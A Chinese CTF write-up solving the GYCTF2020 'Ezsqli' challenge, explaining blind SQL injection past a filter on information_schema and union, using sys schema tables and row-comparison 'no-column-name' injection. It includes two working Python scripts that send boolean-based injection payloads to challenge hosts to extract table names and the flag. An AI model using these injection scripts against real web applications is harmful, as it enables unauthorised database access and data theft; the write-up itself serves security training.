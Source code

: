 ```yaml
---
title: '[GYCTF2020]Ezsqli'
date: 2024-06-08 17:29:03
tags: 
     - 题解
     - sql注入
categories: 刷题笔记
---
```


### [GYCTF2020]Ezsqli（无列名注入）

由题目可以知道这是一个sql注入的题，我们先fuzz一波

<!-- more -->

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200516195510791.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk0MDg1Mw==,size_16,color_FFFFFF,t_70)

很好，information被过滤了，我们直接考虑盲注

我们可以知道，当输入1时，结果返回

![image-20240606212618956](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406062126149.png)



由于information被过滤了，我们考虑用别的东西替换

https://www.cnblogs.com/h0cksr/p/16189749.html

```
sys.schema_table_statistics_with_buffer
 
sys.x$schema_flattened_keys
```

写一个爆表名的脚本

```
import requests

url = "http://e82dedee-e2a8-4334-b282-25615e7d6ce6.node5.buuoj.cn:81/index.php"
data = {"id": ""}


def name(num):
    res = ''
    for i in range(1, 50):
        l = 0
        r = 127
        mid = (l + r) >> 1
        while (l < r):
            pay1 = "0^(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics where table_schema=database()),{0},1))>{1})".format(
                i, mid)
            data["id"] = pay1
            if (num == 1):
                r1 = requests.post(url, data=data)
                # print(data)
                # print(r1.text)
            if ("Nu1L" in r1.text):
                l = mid + 1
            else:
                r = mid
            mid = (l + r) >> 1
        if (mid == 0):
            break
        res += chr(mid)
    print(res)


def main():
    name(1)


if __name__ == "__main__":
    main()

```

得到表名

![image-20240608192211783](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081922870.png)

## 无列名注入

这里因为我们无法通过 这个表获取flag的列名

并且这里过滤了 union 所以我们无法使用

```
select 1,2,3 as b union select * from 表
```

这种无列名注入

所以我们现在需要学习另一个

### 通过ascii位移来获得flag

我们开始在本地尝试

```
select (select "a")  > (select "abcdef")
 
0
 
 
 
select (select "b")  > (select "abcdef")
 
1
 
这里能发现 是通过比对 首个字符的ascii 如果相同 就输出 0 

不同就输出 1
 前一个 ascii  和 后一个ascii 值的大小
 如果前一个比较大 那么就输出0
```

所以我们可以通过这个方式来查询

首先通过 select 1,2,3 查询字段数

![img](https://img-blog.csdnimg.cn/ac8f7b8a362948b49f35a353df420357.png)

![img](https://img-blog.csdnimg.cn/c16e454f7e214cbd8046d42d47d5005f.png)

说明字段数量为2

然后我们就可以通过循环开始查询了

所以我们只要读取到了 Nu1L 然后通过 **减去一位 我们就可以获得上一个的字符**

然后加入 就可以获取下一个了

这里还有一个要注意的 就是 我们注入的地方在字段2 是flag在的地方

1 可能是 id什么的

我们开始写脚本吧

```cobol
import time
 
import  requests
 
baseurl="http://17d5864a-27fc-4fc7-be88-e639f3f55898.node4.buuoj.cn:81/index.php"
 
 
def add(flag):
    res=''
    res+=flag
    return res
flag=''
for i in range(1,200):
    for char in range(32,127):
        datachar = add(flag+chr(char)) #增加下一个比对的字符串
        payload='2||((select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh))'.format(datachar)
        data = {
            'id':payload
        }
        req=requests.post(url=baseurl,data=data)
        if "Nu1L" in req.text:
            flag += chr(char-1)
            print(flag)
            break
        if req.status_code == 429:
            time.sleep(0.5)
```

注意这里的chr(char-1)，我们在本地测试来看一下为什么

![img](https://img-blog.csdnimg.cn/20200516203337501.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200516203640421.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mzk0MDg1Mw==,size_16,color_FFFFFF,t_70)

当我们匹配flag的时候，一定会先经过匹配到字符相等的情况，这一这个时候返回的是0，对应题目中的V&N，很明显此时的chr(char)并不是我们想要的，我们在输出1(Nu1L)的时候，匹配的是f的下一个字符g，而我们想要的是f，此时chr(char-1)=‘f’，所以这里要用chr(char-1)


如果脚本结果出现乱码，可能是运行时间太快，把sleep的值调大点.

得到flag

![image-20240608193505912](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406081935944.png)
